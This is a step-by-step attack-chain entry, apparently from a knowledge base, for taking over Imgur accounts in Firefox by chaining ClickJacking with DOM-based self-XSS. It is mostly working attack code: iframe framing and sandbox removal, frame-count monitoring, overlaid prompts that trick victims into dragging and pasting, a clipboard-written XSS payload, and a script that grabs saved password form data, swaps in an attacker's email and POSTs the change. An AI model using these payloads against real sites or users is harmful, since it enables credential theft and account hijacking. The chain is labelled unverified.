

# Chained ClickJacking and DOM-based Self-XSS for Imgur Account Takeover in Firefox

Multi-stage attack chain exploiting vulnerabilities in Imgur's beta image upload page, specific to Firefox, where ClickJacking allows framing of embed pages and self-XSS enables payload injection via user interactions like dragging images and pasting clipboard content. This leads to arbitrary JavaScript execution, stealing saved passwords, and changing the victim's account email for takeover.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 5 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/Firefox]]

### Target Environment

- Web platform (Imgur.com)
- Firefox browser (version ~75.0 or vulnerable equivalents)
- User must have Imgur account with saved passwords in Firefox
- Attacker controls a malicious webpage (e.g., localhost for PoC)

### Initial Access Requirements

- Victim must visit attacker's malicious page
- Victim grants clipboard API permissions in Firefox
- No prior credentials needed; relies on social engineering via UI overlays

## Detailed Attack Procedures

### Step 1: Setup ClickJacking Iframe
procedure: [[procedures/Setup-ClickJacking-Iframe-for-Imgur-Embed]]

**Objective**: Frame the Imgur embed page to bypass X-Frame-Options and overlay malicious UI on legitimate Imgur content.

**Instructions**: Embed an iframe targeting the vulnerable Imgur embed endpoint using [[commands/iframe-clickjacking-setup]]:

```html
<iframe src="http://imgur.com/a/lz8DAkB/embed/embed?pub=true&ref=http%3A%2F%2Flocalhost%2Fembed.html&w=540"></iframe>
```

Prepare the iframe for manipulation with [[commands/iframe-sandbox-removal]] after a delay:

```javascript
setTimeout(function(){ifr = document.querySelector('iframe');ifr.style="";ifr.removeAttribute("sandbox");console.log(ifr);},4000)
```

**Expected Output**: Imgur embed page loads inside iframe, allowing UI redressing.

**Success Indicators**:
- Iframe loads without X-Frame-Options block
- Console logs the manipulated iframe

### Step 2: Detect Navigation to Vulnerable Upload Page
procedure: [[procedures/Detect-Navigation-to-Vulnerable-Upload-Page]]

**Objective**: Monitor the framed page to detect when the victim navigates to the beta upload page, indicated by frame count changes.

**Instructions**: Set up frame counting with [[commands/iframe-frame-count-log]]:

```html
<iframe id="ifr"></iframe><script>ifr.onload=function(){console.log(ifr.contentWindow.frames.length);}</script>
```

Monitor periodically using [[commands/frame-count-monitor-interval]]:

```javascript
setInterval(function(){if(i==2){console.log("stop counter...");}if(x!=1){if(ifr.contentWindow.frames.length==1){console.log("page change!");btn1.innerHTML="drag the image to here!";x=1;}}},1000)
```

Handle inter-frame communication with [[commands/postmessage-handler]]:

```javascript
onmessage=function(event){console.log(event);i++;}
```

**Expected Output**: Console logs frame count; detects upload page with 1 frame.

**Success Indicators**:
- Log shows "page change!" when frames.length == 1
- UI button updates to guide dragging

### Step 3: Guide User Interaction for Payload Delivery
procedure: [[procedures/Guide-User-Interaction-for-Payload-Delivery]]

**Objective**: Trick the victim into dragging an image and copying/pasting a disguised payload via overlaid UI elements.

**Instructions**: Overlay a clickable button using [[commands/user-click-initiate]] (integrated in PoC HTML for button).

Handle drag end to update instructions with [[commands/ondragend-ui-update]]:

```javascript
ondragend=function(){btn1.innerHTML="";setTimeout(function(){btn1.innerHTML="";btn2.innerHTML="copy the red text and paste here after that, press enter!";},1100)}
```

Display red text payload in input with [[commands/red-text-payload-display]]:

```html
<input type="text" name="" value="https://images.pexels.com/photos/1108099/pexels-photo-1108099.jpeg?<<iframe/src=javascript:self.innerHTML=parent.name>img/src=x>">
```

Detect paste with [[commands/onpaste-detection]]:

```javascript
onpaste=function(){console.log("ONPASTE!");}
```

**Expected Output**: UI updates guide user; console logs "ONPASTE!" on paste.

**Success Indicators**:
- Victim drags image, triggering UI change
- Paste event fires with payload

### Step 4: Inject and Execute Self-XSS Payload
procedure: [[procedures/Inject-and-Execute-Self-XSS-Payload]]

**Objective**: Use clipboard API to prepare and inject the self-XSS payload into the upload field, executing JS on paste and enter.

**Instructions**: Repeatedly write payload to clipboard with [[commands/clipboard-write-interval-generic]] and specific [[commands/clipboard-write-self-xss]]:

```javascript
setInterval(function(){navigator.clipboard.writeText("<<!<script>iframe src=javajavascriptscript:alert(document.domain)>").then(function(text){console.log(text)})},1000)
```

Trigger execution on paste/enter in the upload page context.

**Expected Output**: Payload pastes as disguised URL; JS executes on submit, alerting domain.

**Success Indicators**:
- Clipboard writes succeed (user grants permission)
- Alert fires confirming XSS in Imgur context

### Step 5: Perform Account Takeover via Form Manipulation
procedure: [[procedures/Perform-Account-Takeover-via-Form-Manipulation]]

**Objective**: Steal saved password form data, modify email, and submit to takeover the account.

**Instructions**: Open password settings in new window with [[commands/window-open-password-settings]]:

```javascript
window.open("https://imgur.com/account/settings/password","_blank")
```

Extract and modify form with [[commands/form-data-extraction-modify]]:

```javascript
forms = ifr.contentDocument.getElementsByTagName("form")[5];inputs = forms.getElementsByTagName("input");body = "";for(var i =0; i < inputs.length; i++){if(inputs[i].name=="email"){inputs[i].value="keerok%40protonmail.com";}body +=inputs[i].name+"="+inputs[i].value+"&";}body += "_jafo%5BactiveExperiments%5D=%5B%5D&_jafo%5BexperimentData%5D=%7B%7D";
```

Submit via fetch with [[commands/fetch-password-change-post]]:

```javascript
await fetch("https://imgur.com/account/settings/password", {"credentials": "include","headers": {"User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:75.0) Gecko/20100101 Firefox/75.0","Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8","Accept-Language": "pt-BR,pt;q=0.8,en-US;q=0.5,en;q=0.3","Content-Type": "application/x-www-form-urlencoded","Upgrade-Insecure-Requests": "1"},"referrer": "https://imgur.com/account/settings/password","body": body,"method": "POST","mode": "cors"});
```

**Expected Output**: POST succeeds, changing victim's email to attacker's.

**Success Indicators**:
- Form data includes stolen password
- Server accepts POST, confirming takeover

## Attack Chain Summary

### Key Achievements

1. Bypassed X-Frame-Options via embed endpoint for ClickJacking
2. Detected and exploited Firefox-specific self-XSS in upload page
3. Achieved full account takeover by manipulating saved credentials

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Drive-by Compromise]] Drive-by Compromise (ClickJacking UI redressing)
- [[JavaScript]] JavaScript (XSS payload execution)
- [[Credentials from Web Browsers]] Credentials from Web Browsers (saved passwords)
- [[Steal Web Session Cookie]] Steal Web Session Cookie (session hijack via ATO)

### MITRE ATT&CK Tactics

- [[Initial Access]] Initial Access (drive-by via malicious page)
- [[Execution]] Execution (JS injection)
- [[Credential Access]] Credential Access (password theft)
- [[Impact]] Impact (account compromise)

---

*Last updated: 2023-10-01T00:00:00Z*
